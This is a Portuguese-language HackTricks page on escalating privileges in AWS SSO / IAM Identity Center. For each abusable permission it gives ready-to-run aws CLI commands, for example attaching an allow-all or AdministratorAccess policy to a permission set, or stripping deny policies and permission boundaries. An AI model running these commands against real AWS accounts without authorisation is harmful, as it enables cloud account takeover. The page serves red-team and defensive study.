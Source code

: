 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Para mais informações sobre o AWS Identity Center / AWS SSO, consulte:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Observe que por **padrão**, apenas **usuários** com permissões **da** **Conta de Gerenciamento** poderão acessar e **controlar o IAM Identity Center**.\
Usuários de outras contas só podem permitir isso se a conta for um **Administrador Delegado.**\
[Consulte a documentação para mais informações.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Redefinir Senha~~

Uma maneira fácil de escalar privilégios em casos como este seria ter uma permissão que permita redefinir as senhas dos usuários. Infelizmente, só é possível enviar um e-mail ao usuário para redefinir sua senha, então você precisaria de acesso ao e-mail do usuário.

### `identitystore:CreateGroupMembership`

Com esta permissão, é possível colocar um usuário dentro de um grupo para que ele herde todas as permissões que o grupo possui.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Um atacante com esta permissão poderia conceder permissões extras a um Conjunto de Permissões que é concedido a um usuário sob seu controle

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Um atacante com esta permissão poderia conceder permissões extras a um Conjunto de Permissões que é concedido a um usuário sob seu controle

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Um atacante com esta permissão poderia conceder permissões extras a um Conjunto de Permissões que é concedido a um usuário sob seu controle.

{% hint style="warning" %}
Para abusar dessas permissões neste caso, você precisa saber o **nome de uma política gerenciada pelo cliente que está dentro de TODAS as contas** que serão afetadas.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Um atacante com essa permissão poderia atribuir um Conjunto de Permissões a um usuário sob seu controle em uma conta.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Retorna as credenciais de curto prazo do STS para um nome de função específico que está atribuído ao usuário.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

No entanto, você precisa de um token de acesso que não tenho certeza de como obter (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Um atacante com essa permissão pode remover a associação entre uma política gerenciada da AWS e o conjunto de permissões especificado. É possível conceder mais privilégios através da **desvinculação de uma política gerenciada (política de negação)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Um atacante com esta permissão pode remover a associação entre uma política gerenciada pelo cliente e o conjunto de permissões especificado. É possível conceder mais privilégios através da **desvinculação de uma política gerenciada (política de negação)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Um atacante com esta permissão pode remover as permissões de uma política inline do conjunto de permissões. É possível conceder **mais privilégios ao desanexar uma política inline (política de negação)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Um atacante com esta permissão pode remover o Limite de Permissão do conjunto de permissões. É possível conceder **mais privilégios removendo as restrições do Conjunto de Permissões** dado pelo Limite de Permissão.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
